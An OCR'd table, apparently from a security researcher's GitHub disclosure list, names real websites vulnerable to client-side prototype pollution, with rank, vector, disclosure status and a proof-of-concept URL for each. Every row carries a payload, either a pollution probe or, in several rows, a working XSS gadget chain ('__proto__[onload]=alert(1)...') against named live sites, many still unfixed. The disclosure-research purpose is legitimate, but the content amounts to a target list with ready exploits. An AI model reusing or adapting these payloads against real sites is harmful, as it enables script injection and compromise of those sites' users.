|celebuzz.com|15709|URL|-|Reported|`https://celebuzz.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|celecon.com|539637|URL|, URL-M|Reported|`https://celecon.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|centura.ca|376991|URL search|-|Reported|`https://centura.ca/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|centuryfurniture.com|256239|URL|-|Reported|`https://centuryfurniture.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|ceo.ca|72747|URL search|-|Fixed|`https://ceo.ca/afm/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|ceramicindustry.com|762190|URL|-|Reported|`https://ceramicindustry.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cerrojuli.com.pe|579253|URL|-|Reported|`https://cerrojuli.com.pe/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|certent.com|247846|URL search|, Cookie-M|Not|`https://insightsoftware.com/solutions/operations/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|certideal.com|500677|URL|, Cookie-M, URL-M|Reported|`https://certideal.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cestchristine.com|902440|URL|-|Reported|`https://cestchristine.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cestujlevne.com|182160|URL|, URL-M, XSS|Reported|`https://www.cestujlevne.com/akcni-letenky/akcni-ceny-u-vuelingu-do-florencie-nebo-parize-z-prahy/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|cfemedia.com|488434|URL|-|Reported|`https://cfemedia.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cfonboarding.com|827449|URL|-|Reported|`https://cfonboarding.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cgtrader.com|7631|URL search|, Cookie-M|Reported|`https://www.cgtrader.com/freelance-with-us/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|championtool.ru|644278|URL|, Cookie-M|Reported|`https://championtool.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|championwindow.com|240920|URL search|-|Reported|`https://championwindow.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|charlestonmag.com|280352|URL search|-|Fixed|`https://charlestonmag.com/features/rodney_scott_goes_whole_hog_with_his_new_cookbook/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|chassepassion.net|646333|URL search|-|Fixed|`https://www.chassepassion.net/actualite-de-la-chasse/insolites/inquietude-autour-du-projet-dun-parc-a-loup-en-sologne/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|chathamjournal.com|513197|URL search|-|Reported|`https://chathamjournal.com/category/locales/sanford/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|chattahoocheetech.edu|203784|URL search|-|Reported|`https://chattahoocheetech.edu/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cheapair.com|60190|URL|, URL-M|Reported|`https://www.cheapair.com/support/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|checkeeper.com|554815|URL search|, URL-M|Fixed|`https://checkeeper.com/features/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|checkmk.com|227843|URL search|-|Not|`https://checkmk.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cheetahdigital.com|139368|URL search|, URL-M|Reported|`https://www.cheetahdigital.com/solutions/cheetah-personalization/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|chemengonline.com|116009|URL|-|Reported|`https://chemengonline.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chemetall.com|460941|URL search|, Cookie-M|Reported|`https://www.chemetall.com/Career/Online-Bewerbung/Stellenb%C3%B6rse/index.html?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)&languageSelect=EN`
|chemicalwatch.com|110965|URL search|-|Reported|`https://chemicalwatch.com/privacy/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|cherisheditions.com|596230|URL search|, URL-M|Reported|`https://cherisheditions.com/faqs/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|cherrykoko.com|313858|URL|, URL-M|Reported|`https://cherrykoko.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chiefmarketer.com|43591|URL|-|Not|`https://chiefmarketer.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chipcenter.com|830252|URL search|, URL-M|Reported|`https://chipcenter.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chipublib.org|50221|URL search|-|Reported|`https://chipublib.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chiroeco.com|127170|URL|, Cookie-M, URL-M|Reported|`https://chiroeco.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|christchurchcathedral.ie|498965|URL search|, Cookie-M|Fixed|`https://christchurchcathedral.ie/worship/current-music-list/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|chrono24.ae|938980|URL search|-|Not|`https://chrono24.ae/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chrono24.app|932287|URL search|-|Not|`https://chrono24.app/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chrono24.ca|360122|URL search|-|Not|`https://chrono24.ca/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`